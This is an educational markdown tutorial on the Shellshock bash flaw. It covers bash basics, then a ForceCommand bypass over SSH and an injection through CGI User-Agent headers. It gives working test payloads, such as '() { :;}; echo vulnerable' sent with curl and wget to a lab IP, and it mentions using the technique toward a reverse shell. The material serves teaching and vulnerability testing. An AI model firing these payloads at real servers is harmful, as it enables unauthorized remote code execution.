


# Presentation
## Bash Overview
Before we talk about the shellshock exploit, lets have a quick refresher about bash
### Variables

Bash treats everything as a string by default. You can access variables by appending '$' in front of a variable name
```bash
foo=bar
echo $foo
# bar

foo="bar"
echo $foo
# bar
```

You can also set variables to the output of commands using $(...)
```bash
message=$(fortune)
echo $message
# Your mode of life will be changed for the better because of new developments.
```

However, any strings with spaces need quotes for proper assignment
```bash
foo=bar bar
# bar: command not found

foo="bar bar"
echo $foo
"bar bar"
```

### Environment Variables
Environment variables store data used by the operating system and other programs. When you open a new shell session, these pre-defined variables will be ready for your use. 

For example, `$HOME` contains your home directory, `$PATH` is the list of directories that programs have access to, etc.


### The `env` command
`env` is a command that allows you to manipulate environment variables. One way `env` can be used is to set environment variables for commands:
```bash
$ env foo=bar printenv 
HOSTTYPE=x86_64
LANG=C.UTF-8
PATH=/home/alice:/usr/local/bin
TERM=xterm-256color
HOME=/home/alice
USER=alice
LOGNAME=alice
SHELL=/usr/bin/bash
foo=bar
```
Here we run `printenv`, which prints all environment variables, after using `env` to make a new environment variable `foo` that equals `bar`, which appears in the `printenv` output as expected.

### Function Declaration
```bash
function x {
    echo "hello world"
}
x () {
    echo "hello world"
}

x () { echo "hello world" ; }

x='() { echo "hello world"; }'
```
These four function declarations are equivalent, though the last one is only valid for older versions of bash.

## Shellshock
Shellshock is a series of 6 exploits that all take advantage of the bash parser to cause unintended code execution. They affect bash versions 1.03 to 4.3, which is 25 years of bashs since 1989!

The exploit looks something like this:

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```
This command runs `echo this is a test` on a new instant of bash with an environment variable `x='() { :;}; echo vulnerable'`. The first part of the variable definition, `() { :;}`, declares an empty function, and the function declaration is followed by a newline and extra code, `echo vulnerable`.

If your system prints `vulnerable` in addition to `this is a test`, that means you are susceptible to a shellshock attack. This occurs because in older versions of bash, the variable parser would convert any functions defined as variables into code blocks and execute them.

In this case, `x='() { :;}; echo vulnerable'` would be converted by the bash parser into `x () { : ; }; echo vulnerable`, and then execute this line of code. The problem is, bash interprets `;` as a newline, which means it will also execute the code following the function declaration.

For very, very obvious reasons, this is incredibly bad.

## Attack Vector 0: OpenSSH RCE
SSH (Secure Shell) is a service that allows user to securely access a shell on a remote computer. Typically, it is good security practice to only grant services the minimum required permissions. 

Instead of allowing a service to execute arbitrary commands over SSH, a "Forced Command" can be used to restrict a user to only executing one command. When a Forced Command is specified, this user should not be able to execute any other commands.

### Conditions for Exploit
0. Victim's bash version must be of a known vulnerable version (through 4.3).
1. The adversary should have a SSH connection via authorized keys to begin with.
2. User must be restricted to run some specific commands.

### Walkthrough
OpenSSH has a "ForceCommand" feature where a fixed command is executed when the user logs in, instead of just running an unrestricted command shell. The fixed command is executed even if the user specified that another command should be run. 

For the exploit, our objective is to achieve RCE and create an environment where any arbitrary command may be run.

To begin our exploit, we will first test for whether the target system is vulnerable, and we can run the one-liner we've introduced above.

```bash
$ env x= ‘() { :;}; echo shellshocked’ bash –c “echo test”
```

If bash prints out both `shellshocked` and `test`, then we're good to go!

Let's see what restrictions are implemented for the user on the network:



Here, we can see that upon login and an attempt to pass `date` as a command line argument, the fixed command from the script in the `authorized_keys` on the server is executed first, which we've written as a script preventing `date` calls.


Now, let's use the classic Shellshock exploit to bypass this:

We're just adding the following line after our typical line for connection:  

```() { :;}; date```

And bingo! 



Unlike the previous case, where ‘date’ is blocked by script.sh specified in the authorized_keys file, this time our arbitrary command itself is becoming the first command and hence we are getting the date printed.

The scope of this exploit is pretty limited, but it can be a very useful intermediate attack leveraged to establish a reverse shell through something like a firewall before targeting other machines on the same network.

## Attack Vector 1: CGI Script

CGI is Common Gateway Interface, a specification that enables web servers to execute external programs, usually scripts. For example, you can build webpages and forms using shell scripts:
```sh
#!/bin/bash

# hello.sh

echo "Content-type: text/html"
echo ""

echo '<html>'
echo '<head>'
echo '<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">'
echo '<title>Hello World</title>'
echo '</head>'
echo '<body>'
echo 'Hello World'
echo '</body>'
echo '</html>'

exit 0
```
It looks a lot like this shell script is just outputting HTML, which is exactly what it does.

If you started a webserver and navigated to the file, it would look something like this:


We can intercept the request in burp suite, and it looks something like this:


We can see right now that we have 8 different headers to mess around with. Out of these, only one is passed to the CGI script, User-Agent, while the rest are handled by the server.

If we send the request to the Burp Repeater, we can edit headers and track the responses we get:


Lets try editing User-Agent to test if this server is vulnerable to shellshock:


Voila!

Bonus: Would you believe that Burp Suite isn't needed to do a cgi-based shellshock attack?

Both `curl` and `wget` can be used to send HTTP requests with edited headers and view the response.
```bash
curl -H 'User-Agent: () { :; }; echo; echo vulnerable' http://192.168.56.101:8000/cgi-bin/hello.sh
```
The `-H` flag lets us specify what headers to change in our request. 
```bash
wget -qO- --header="User-Agent: () { :; }; echo; echo vulnerable" http://192.168.56.101:8000/cgi-bin/hello.sh
```
The `--header` acts like curl's `-H` flag, and `-qO-` spits the response to stdout. Both output the following:
```
vulnerable
Content-type: text/html

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Hello World</title>
</head>
<body>
Hello World
</body>
</html>
```
Note: When we send the modified header with `curl` or `wget`, we need to add an extra `echo` that we didn't need to do with Burp Suite, because we need an extra newline otherwise the web-server fails to parse the header.
